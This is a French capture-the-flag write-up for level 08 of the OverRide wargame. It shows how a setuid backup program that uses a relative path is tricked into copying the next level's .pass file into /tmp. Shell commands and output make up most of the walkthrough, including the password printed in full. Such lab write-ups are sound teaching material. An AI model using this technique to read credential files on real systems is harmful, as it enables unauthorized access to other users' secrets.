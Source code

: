 ## LEVEL 08

Lorsqu'on lance le programme sans arguments, il nous donne l'usage :

```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Il faut donc ouvrir le programme avec un fichier.

On voit en analysant le binaire que celui-ci essaie de créer un backup du fichier mit en argument.

Essayons d'ouvrir le .pass du level09.
```
level08@OverRide:~$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
Le programme essaie de créer le backup dans le path `./backups//home/users/level09/.pass`. Le problème est que celui-ci n'existe pas.

On doit alors créer le même path dans le tmp. Pour que le programme puisse y accéder il faut toujours le lancer à partir de tmp car celui-ci utilise le relative path.

```
level08@OverRide:/tmp$ mkdir -p ./backups//home/users/level09/
```
On relance le programme avec le .pass du level09 et cette fois-ci il devrait trouver un endroit où créer le backup.

```
level08@OverRide:/tmp$ ~/level08 ~level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
